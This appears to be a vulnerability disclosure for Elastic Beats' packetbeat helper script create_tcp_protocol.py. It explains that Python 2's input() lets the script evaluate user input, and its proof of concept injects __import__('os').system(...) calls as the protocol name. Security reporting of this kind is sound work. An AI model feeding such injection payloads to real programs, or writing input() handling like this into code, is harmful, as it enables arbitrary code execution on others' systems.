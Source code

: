 # Description
The ```Beats``` are lightweight data shippers, written in Go, that you install on your servers to capture all sorts of operational data (think of logs, metrics, or network packet data). It has a ```packetbeat``` module to Monitor the network and applications by sniffing packets. 
This packekbeat contain a ```create_tcp_protocol.py``` which run in ```python 2``` and takes in a input using unsafe ```input()``` function which leads to a ```Code Injection``` vulnerability. This code injection bug could also lead to ```Arbitrary code execution```.

#Proof-of-Concept
```
$ python create_tcp_protocol.py
Protocol Name [exampletcp]: __import__("os").system("uname -a")
```
RCE PoC
```
$ python create_tcp_protocol.py
Protocol Name [exampletcp]: __import__("os").system("touch HACKED.txt")
```
